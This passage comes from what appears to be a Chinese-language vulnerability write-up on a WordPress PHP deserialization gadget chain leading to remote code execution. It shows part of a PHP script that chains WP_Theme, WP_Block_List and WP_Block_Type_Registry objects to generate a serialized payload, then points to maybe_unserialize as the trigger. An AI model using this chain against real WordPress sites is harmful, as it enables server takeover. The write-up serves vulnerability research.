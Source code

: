 ```bash
    $blocks = ["Name" => $block];
    // 需要设置registered_block_types属性，同样为继承ArrayAccess接口的实例，即WP_Theme
    $registry = new WP_Block_Type_Registry($registered_block_types);
    // 需要设置blocks属性，含有“Name”键，为数组
    // 需要设置registry属性为WP_Block_Type_Registry对象
    $headers = new WP_Block_List($blocks, $registry);

    // WP_Theme中的get方法，需要设置$header属性为继承ArrayAccess接口的实例，即WP_Block_List
    // 触发__toString方法的对象
    $theme = new WP_Theme($headers, null);

    echo urlencode(serialize($theme));
}
```

生成的 payload 能够成功 RCE

## 触发

首先需要找到反序列化点，在 wordpress 中存在该方法 maybe\_unserialize 会对传入的数据进行反序列化

```bash
function maybe_unserialize( $data ) {
    if ( is_serialized( $data ) ) { // Don't attempt to unserialize data that wasn't serialized going in.
        return @unserialize( trim( $data ) );
    }

    return $data;
}
```

而调用该方法的在整个项目中存在 20 项

[![](assets/1707953698-52dfb0f9247d4f0cde28e4d5c8df950e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240208123150-fa33491a-c63a-1.png)
